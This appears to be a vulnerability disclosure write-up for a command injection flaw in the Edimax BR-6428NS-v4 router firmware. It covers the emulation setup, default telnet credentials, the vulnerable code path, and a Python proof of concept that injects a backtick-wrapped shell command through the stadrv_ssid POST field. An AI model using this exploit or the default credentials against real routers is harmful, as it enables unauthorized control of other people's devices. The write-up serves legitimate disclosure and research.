 # Command Injection

Command execution directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4

**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```

![image-20241012151406971](./images/image-20241012151406971.png)

**Router Homepage**:

![image-20241012153525694](./images/image-20241012153525694.png)

**Telnet**:

Username and Password: root/edimaxens

![image-20241012153704459](./images/image-20241012153704459.png)

**Vulnerability Location**: In the firmware package, the squashfs-root system's /bin/webs ELF file, within the wlgetHiddenSSIDinfo function, which is called by the formStaDrvSetup function.

## Cause of the Vulnerability

The wlgetHiddenSSIDinfo function accepts parameters that are unvalidated and controlled by HTTP Post requests. System commands can be directly executed using backticks **`**.

![image-20241012170043109](./images/image-20241012170043109.png)

The formStaDrvSetup function receives the stadrv_type parameter. If stadrv_type is not equal, it enters the if logic.

![image-20241012172017221](./images/image-20241012172017221.png)

If stadrv_band is not 0, it enters a second layer of if logic, and if stadrv_chan equals 19, it enters the command injection logic. Finally, the command is injected through the stadrv_ssid parameter.

![image-20241012172229177](./images/image-20241012172229177.png)

## PoC

```python
import requests

command = "touch /var/fanxiaoyao"
url = "http://192.168.2.1/goform/formStaDrvSetup"
data = {
    "stadrv_type":1,
    "stadrv_band":1,
    "stadrv_chan":19,
    "stadrv_ssid":f"`{command}`"
}

r = requests.post(url,data=data)
#print(r.text)
```

**Verification Result**:

![image-20241012172858938](./images/image-20241012172858938.png)